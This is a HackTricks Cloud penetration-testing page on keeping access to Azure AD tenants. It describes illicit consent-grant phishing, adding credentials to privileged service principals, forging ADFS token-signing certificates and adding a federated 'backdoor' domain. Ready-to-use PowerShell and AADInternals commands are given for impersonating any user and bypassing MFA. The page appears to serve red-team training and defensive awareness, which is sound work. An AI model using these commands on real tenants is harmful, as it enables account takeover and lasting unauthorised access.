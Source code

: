 # Az - Persistence

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

### Illicit Consent Grant

By default, any user can register an application in Azure AD. So you can register an application (only for the target tenant) that needs high impact permissions with admin consent (an approve it if you are the admin) - like sending mail on a user's behalf, role management etc.T his will allow us to **execute phishing attacks** that would be very **fruitful** in case of success.

Moreover, you could also accept that application with your user as a way to maintain access over it.

### Applications and Service Principals

With privileges of Application Administrator, GA or a custom role with microsoft.directory/applications/credentials/update permissions, we can add credentials (secret or certificate) to an existing application.

It's possible to **target an application with high permissions** or **add a new application** with high permissions.

An interesting role to add to the application would be **Privileged authentication administrator role** as it allows to **reset password** of Global Administrators.

This technique also allows to **bypass MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* For certificate based authentication

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

With **DA privileges** on on-prem AD, it is possible to create and import **new Token signing** and **Token Decrypt certificates** that have a very long validity. This will allow us to **log-in as any user** whose ImuutableID we know.

**Run** the below command as **DA on the ADFS server(s)** to create new certs (default password 'AADInternals'), add them to ADFS, disable auto rollver and restart the service:

```powershell
New-AADIntADFSSelfSignedCertificates
```

Then, update the certificate information with Azure AD:

```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```

### Federation - Trusted Domain

With GA privileges on a tenant, it's possible to **add a new domain** (must be verified), configure its authentication type to Federated and configure the domain to **trust a specific certificate** (any.sts in the below command) and issuer:

```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```

## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
